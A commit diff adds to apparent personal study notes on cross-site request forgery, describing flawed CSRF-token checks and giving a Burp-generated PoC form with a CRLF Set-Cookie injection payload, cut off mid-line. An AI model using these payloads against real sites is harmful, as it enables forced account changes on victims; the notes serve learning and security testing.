

Before and after one commit to Eyadeltaher/Cybersecurity-notes, a LaTeX document (notes/CSRF/CSRF-notes.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
ADD CSRF notes -2

```diff
--- a/notes/CSRF/CSRF-notes.tex
+++ b/notes/CSRF/CSRF-notes.tex
@@ -103,3 +103,66 @@ A CSRF token is a unique, secret, and unpredictable value that is generated by t
     \item From the right-click context menu, select change request method $\Longrightarrow$ to switch between POST and GET methods
     \item From the right-click context menu, select Engagement tools / Generate CSRF PoC.
 \end{itemize}
+	\item \textbf{If CSRF token depends on token being present}\\
+	Some applications correctly validate the token when it is present but skip the validation if the token is omitted.\\
+	if the POSR request body like this
+	        \begin{lstlisting}[frame=single]
+email=saaaaadfds%40gmail.com&csrf=iHMm0Q4MbEGvSbjwPWCRmKtPfwvyXDFv
+            \end{lstlisting}
+
+            remove the CSRF token
+            	\begin{lstlisting}[frame=single]
+	            email=saaaaadfds%40gmail.com
+            \end{lstlisting}
+
+     \item \textbf{If CSRF token is not tied to the user session}\\
+	 Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.\\
+
+In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.
+
+	\item \textbf{If CSRF token is tied to a non-session cookie}\\
+	Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together
+
+            	\begin{lstlisting}[frame=single]
+POST /email/change HTTP/1.1
+Host: vulnerable-website.com
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 68
+Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6
+atzagGoSYyqJqTz5dv
+
+csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
+            \end{lstlisting}
+
+\underline{We have to see if the CSRF token is tied to CSRF cookie NOT the session cookie}\\
+\textbf{Step 1:} Check if the CSRF token is tied to CSRF cookie
+\begin{itemize}
+    \item Sumbit an invalid CSRF token
+    \item Sumbit a valid CSRF token but from another user (from private window)
+\end{itemize}
+
+\textbf{Step 2:} Check if the CSRF token is tied to CSRF cookie NOT the session cookie
+\begin{itemize}
+    \item Sumbit a valid CSRF token and CSRF cookie from another user to see if the session cookie also tied to them or not
+\end{itemize}
+if not this is good news that means that the session handling system and the csrf defense mechanism are not tied together so what we need in order to exploit this vulnerability is to be able to inject an http cookie called csrf key and inject our own\\
+The idea is to make a malicious website that inject our own csrf cookie into the user browser
+\newpage
+the CSRF POS
+            	\begin{lstlisting}[frame=single]
+<html>
+<!-- CSRF PoC - generated by Burp Suite Professional -->
+	<body>
+		<form action="https://website.nett\/my-account/change-ema
+		il" method="POST">
+
+			<input type="hidden" name="email" value="testma
+			il310&#64;normal&#45;user&#46;net" />
+
+			<input type="hidden" name="csrf" value="QHBtrtc
+			T4hitwv8Q6I2DVEYLwBJnVSpn" />
+
+			<input type="submit" value="Submit request" />
+		</form>
+
+<img src="https://website.net/?search=sdfdsfdsf%0D%0ASet-Cookie%3A+cs
```
Also changed, not shown: notes/CSRF/CSRF-notes.pdf, notes/CSRF/CSRF-notes.tex (20 more changed lines).
